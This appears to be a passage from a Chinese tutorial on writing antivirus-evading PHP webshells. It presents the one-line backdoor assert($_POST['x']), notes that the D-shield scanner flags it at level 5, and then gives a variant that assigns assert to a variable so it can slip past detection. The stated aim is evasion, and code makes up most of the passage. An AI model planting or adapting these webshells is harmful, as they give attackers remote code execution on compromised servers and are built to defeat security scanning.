 ## 编写免杀

上面说了那么多其实都是一句话木马的思路，每一种方式都可以写成一句话木马，而想要免杀常常会多种组合到一起，下面从最简单的木马一步步变形，达到免杀的目的。

```php
assert($_POST['x']);
```

![5级](ex_10.png)

这种就是最简单的一句话木马，使用D盾扫一下，可以看到5级，没有什么好说的。

动态函数方法,把assert这个函数赋值两次变量,再把变量当成函数执行。

```php
$c = "assert";
$c($_POST['x']);
```
